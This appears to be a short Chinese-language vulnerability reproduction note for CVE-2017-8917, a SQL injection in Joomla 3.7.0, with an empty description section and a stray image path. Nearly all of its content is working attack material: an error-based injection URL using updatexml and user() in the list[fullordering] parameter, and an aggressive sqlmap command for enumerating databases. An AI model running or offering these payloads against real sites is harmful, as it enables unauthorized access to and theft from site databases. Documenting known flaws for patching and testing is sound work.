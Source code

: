 （CVE-2017-8917）Joomla 3.7.0 QL注入漏洞
========================================

一、漏洞简介
------------

二、漏洞影响
------------

Joomla 3.7.0

三、复现过程
------------

    http://www.0-sec.org:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)

![](resource/(CVE-2017-8917)Joomla3.7.0QL注入漏洞/media/rId24.png)

### 补充

    sqlmap -u "http://www.0-sec.org/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
